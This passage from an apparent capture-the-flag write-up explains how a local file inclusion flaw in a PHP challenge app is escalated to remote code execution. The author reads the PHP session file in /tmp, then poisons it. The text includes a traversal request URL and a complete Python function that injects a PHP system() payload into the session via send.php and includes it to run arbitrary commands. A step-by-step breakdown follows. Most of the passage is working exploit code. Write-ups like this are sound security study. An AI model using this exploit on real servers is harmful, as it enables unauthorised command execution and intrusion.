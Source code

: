 As any real hacker would do, the solution was to go look around Stack Overflow, because of course, it has a [random page](https://stackoverflow.com/questions/4927850/location-for-session-files-in-apache-php) addressing exactly this. PHP uses the `session.save_path` configuration directive to determine where the PHP session files should be stored. In the case that this directive is empty or not set, PHP defaults to storing the session files in the local temporary directory, which in the case of Linux is `/tmp`. Knowing this, we can use our LFI to confirm this by requesting our session file with the `PHPSESSID` value appended to `sess_`:

```
http://127.0.0.1:1337?f=../../../../tmp/sess_311f9d57ab0b8ad5c4fea8fe85f0f14e
```

And we get a hit. The hard part of the challenge was figuring out this obscure default behavior on the `session.save_path` directive and once we can read our session data, we can easily escalate our LFI to RCE. 

### Writing the Exploit

There are 6 steps for getting command execution on the system and they are best implemented with a script. Here is some quick Python I wrote to automate this process:

```python
def execute_command(command):
    # Step 1
    php_payload = '<?php system(\"' + command + '\"); ?>'

    # Step 2
    session_cookie = requests.get(target_url + target_endpoint).headers['Set-Cookie'].split(';')[0].split('=')[1]
    
    # Step 3
    post_data = 'name=' + php_payload
    post_headers = {'Cookie': 'PHPSESSID=' +session_cookie, 'Content-Type': 'application/x-www-form-urlencoded'}
    post_request = requests.post(target_url + target_endpoint, data = post_data, headers = post_headers)

    # Step 4
    lfi_payload = '../../../../'
    get_parameters = {'f': lfi_payload + '/tmp/sess_' + session_cookie}
    
    # Step 5
    get_request = requests.get(target_url, params = get_parameters)

    # Step 6
    lfi_output = get_request.text.split('"plane|')[1].split(':"')[1].split('";')[0].strip()

    return lfi_output
```

Here are the 6 steps to execute code on this web server:

- **Step 1:** Craft a PHP payload. For PHP code to get executed when a page is rendered, it must be enclosed with `<?php ... ?>`.
- **Step 2:** Grab the session cookie from the `Set-Cookie` header. We need the `PHPSESSID` value to know what file to include with LFI.
- **Step 3:** POST the PHP payload to `send.php` we identified in the beginning. The request content will get stored in the session file.
- **Step 4:** Craft the LFI payload. We need to go up 4 directories to get to the root. Append the `/tmp` session file path to the payload.
- **Step 5:** Simply send a GET request with the vulnerable parameter to trigger LFI and include the PHP session file we injected into.
- **Step 6: ** Split the HTML response body to grab only the RCE output and cut off the junk.
